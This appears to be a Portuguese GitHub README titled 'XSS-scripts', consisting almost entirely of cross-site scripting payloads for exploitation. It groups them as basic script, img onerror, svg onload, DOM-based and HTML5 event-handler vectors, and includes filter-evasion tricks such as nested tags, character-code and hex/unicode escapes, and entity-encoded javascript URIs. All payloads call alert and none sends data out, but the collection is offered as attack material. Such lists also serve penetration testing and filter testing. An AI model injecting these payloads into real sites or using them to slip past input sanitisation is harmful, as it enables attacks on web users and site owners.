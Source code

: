 # XSS-scripts
Vários scripts voltados a exploração da vulnerabilidade XSS

# XSS-Html

// Basic payload
<script>alert('XSS')</script>

<scr<script>ipt>alert('XSS')</scr<script>ipt>
  
"><script>alert('XSS')</script>
  
"><script>alert(String.fromCharCode(88,83,83))</script>
  
<script>\u0061lert('22')</script>
  
<script>eval('\x61lert(\'33\')')</script>
  
<script>eval(8680439..toString(30))(983801..toString(36))</script> //parseInt("confirm",30) == 8680439 && 8680439..toString(30) == "confirm"
  
<object/data="jav&#x61;sc&#x72;ipt&#x3a;al&#x65;rt&#x28;23&#x29;">

// Img payload
<img src=x onerror=alert('XSS');>
  
<img src=x onerror=alert('XSS')//
     
<img src=x onerror=alert(String.fromCharCode(88,83,83));>
  
<img src=x oneonerrorrror=alert(String.fromCharCode(88,83,83));>
  
<img src=x:alert(alt) onerror=eval(src) alt=xss>
  
"><img src=x onerror=alert('XSS');>
  
"><img src=x onerror=alert(String.fromCharCode(88,83,83));>

// Svg payload
  
<svgonload=alert(1)>
  
<svg/onload=alert('XSS')>
  
<svg onload=alert(1)//
     
<svg/onload=alert(String.fromCharCode(88,83,83))>
  
<svg id=alert(1) onload=eval(id)>
  
"><svg/onload=alert(String.fromCharCode(88,83,83))>
  
"><svg/onload=alert(/XSS/)
              
<svg><script href=data:,alert(1) />(test)
  
<svg><script>alert('33')
  
<svg><script>alert&lpar;'33'&rpar;
  
# DomBased XSS
  // obs: Utilizar a extensão DOM Invader
  
123#"><img src=/ onerror=alert(2)>123

# XSS Html 5

<body onload=alert(/XSS/.source)>
  
<input autofocus onfocus=alert(1)>
  
<select autofocus onfocus=alert(1)>
  
<textarea autofocus onfocus=alert(1)>
  
<keygen autofocus onfocus=alert(1)>
  
<video/poster/onerror=alert(1)>
  
<video><source onerror="javascript:alert(1)">
  
<video src=_ onloadstart="alert(1)">
  
<details/open/ontoggle="alert`1`">
  
<audio src onloadstart=alert(1)>
  
<marquee onstart=alert(1)>
  
<meter value=2 min=0 max=10 onmouseover=alert(1)>2 out of 10</meter>

<body ontouchstart=alert(1)> //
  
<body ontouchend=alert(1)>   // 
  
<body ontouchmove=alert(1)>  // 



